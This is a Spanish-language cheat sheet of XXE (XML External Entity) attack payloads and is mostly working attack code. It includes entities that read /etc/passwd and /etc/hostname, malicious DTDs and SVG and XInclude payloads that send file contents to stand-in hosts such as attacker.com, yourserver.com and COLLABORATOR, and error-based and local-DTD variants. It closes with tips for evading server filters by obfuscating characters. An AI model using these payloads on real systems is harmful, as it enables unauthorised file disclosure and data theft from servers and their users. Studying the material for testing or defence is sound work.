 ```yaml
---

### 💥 **XXE (XML External Entity) Attack Cheat Sheet** 💥

---
```

---

## **Tipos de Entidades en XML**

| Tipo                   | Descripción                                                                     |
| ---------------------- | ------------------------------------------------------------------------------- |
| Genéricas              | Representan cualquier tipo de información dentro del XML.                       |
| Externas (XXE)         | Referencian recursos externos, como archivos locales o URLs.                    |
| Predefinidas           | Entidades comunes usadas en XML (&lt;, &gt;, &amp;).                            |
| Entidades Paramétricas | Utilizan el símbolo `%` y se declaran en el **DTD (Document Type Definition)**. |
|                        |                                                                                 |

---

## **Ejemplo de Estructura XML**
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "mi entidad">]> 

<root>
    <name>fran</name>
    <tel>5454545as</tel>
    <email>fran@fran.com</email>
    <password>fran123</password>
</root>
```

---

## **Normal XXE (Local File Disclosure)**

### **Payloads:**
```xml
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "file:///etc/passwd"> ]>
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
```

---

## **Out Of Band XXE (OOB)**
- Estas inyecciones son ciegas (blind), donde el servidor realiza solicitudes HTTP hacia un servidor externo.

### **Payloads:**
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://COLLABORATOR"> %xxe;] --> utilizando parametro

<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "http://192.168.64.128/testXXE"> ]>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://192.168.64.128/malicious.dtd"> %xxe; ]>
```

---

### **Estrctura base**

```xml
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<root>
	<product>
		1
	</product>
</root>

```

## **Malicious DTD Files**

### **Malicious DTD 1 - Base64 Encoding:**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%stack;
%exfil;
```

### **Malicious DTD 2 - Direct File Read:** 
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%stack;
```

### **Malicious DTD 3 - Error-Based XXE:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; error SYSTEM 'file://idontexist/%file;'>">
```

---

## **XInclude Injection**

### **Payloads:**
**XInclude Local File:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="file:///etc/passwd" parse="text"/>
</foo>
```

**XInclude OOB:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="http://yourserver.com/?data=file:///etc/passwd" parse="text"/>
</foo>
```

---

## **XXE via Image File Upload**

### **Normal XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY file SYSTEM "file:///etc/hostname">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <text x="0" y="16" font-size="16">&file;</text>
</svg>
```

### **OOB XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY exfil SYSTEM 'https://yourserver.com/?data=%file;'>">
    %eval;
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <image xlink:href="&exfil;" xmlns:xlink="http://www.w3.org/1999/xlink"/>
</svg>
```

---

## **XXE by Repurposing Local DTD**

### **Payload:**
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; exfil SYSTEM &#x27;file:///noexisto/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;exfil;
'>
%local_dtd;
]>
```

---

## **Consejos Útiles:**
- **Siempre invoca el nombre de la entidad dentro del XML para ejecutar el payload.**  
- **Si el ataque falla, intenta eliminar el `%` o probar variantes de codificación.**  
- **Si el servidor bloquea ciertas entidades, intenta ofuscar los caracteres.**  

---
